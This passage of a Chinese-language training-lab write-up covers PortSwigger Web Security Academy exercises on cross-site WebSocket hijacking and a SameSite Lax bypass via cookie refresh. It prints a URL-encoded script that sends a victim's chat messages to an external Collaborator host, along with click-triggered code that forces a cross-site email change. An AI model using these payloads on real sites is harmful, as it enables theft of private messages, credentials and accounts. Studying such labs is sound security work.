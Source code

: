 （7）接下来在同域站点的登录请求包中制作CSRF POC：将上一步制作的恶意操作表单进行URL编码后填入参数Username，随后在修改过后的数据包基础上生成CSRF POC

```python
%3cscript%3e%0a++++var+ws+%3d+new+WebSocket(%27wss%3a%2f%2f0af20052038cf1ed81658977008e0071.web-security-academy.net%2fchat%27)%3b%0a++++ws.onopen+%3d+function()+%7b%0a++++++++ws.send(%22READY%22)%3b%0a++++%7d%3b%0a++++ws.onmessage+%3d+function(event)+%7b%0a++++++++fetch(%27https%3a%2f%2fp5vx5w7gahns2nfkb7kwwomaf1ls9oxd.oastify.com%27%2c+%7bmethod%3a+%27POST%27%2c+mode%3a+%27no-cors%27%2c+body%3a+event.data%7d)%3b%0a++++%7d%3b%0a%3c%2fscript%3e
```

![image-20240909222114490](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092221626.png)

![image-20240909222127010](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092221103.png)

（8）点击Deliver exploit to victim 将页面发送至受害者后，回到Burpsuite中的Collaborator服务器点击pull now刷新，通过服务器接收到的HTTP响应包成功窃取到carlos用户的历史聊天记录，其中的聊天记录泄露了carlos用户的密码

![image-20240909222402554](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092224676.png)

![image-20240909222433414](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092224507.png)

## 10. SameSite Lax bypass via cookie refresh

（1）用户wiener登录，通过页面或者HTTP请求流量包可以看出站点采用oauth认证机制，由于oauth认证机制的特殊性，Google浏览器在新Cookie生成的120秒内，Samesite属性不会生效

![image-20240911012648096](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409110126222.png)

![image-20240911012853630](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409110128715.png)

（2）查看用户更新邮箱的请求包，请求包中除Cookie-session外不存在其他不可预测参数。用户账号界面进入开发者模式，检查Samesite属性为空，即默认为Lax

![image-20240911012928052](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409110129134.png)

![image-20240911012944689](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409110129800.png)

（3）要想实现CSRF攻击，需要用户进行SSO登录，刷新Cookie使得Samesite在120秒内不生效，如何实现？

1. 将用户重定向至SSO登录界面（Window.open进行自动弹窗）

```py
window.open('https://0a8700cc043140858299f69100780081.web-security-academy.net//social-login')
```

![image-20240911014948982](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409110149083.png)

（4）在服务器点击 View exploit 进行恶意表单本地预览，发现浏览器禁止window.open弹窗

![image-20240911015005277](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409110150348.png)

（5）既然无法自动实现弹窗，可以尝试点击弹窗。恶意页面中设置点击按钮，用户点击按钮时实现重定向至oauth登录页面

```PY
<p>Click Me!</p>
        <script>
            window.onclick = () => {
                window.open('https://0a8700cc043140858299f69100780081.web-security-academy.net/socal-login')
                setTimeout(updateEmail, 3000);
            }

            function updateEmail() {
                document.getElementsByTagName('form')[0].submit();
            }
        </script>
```
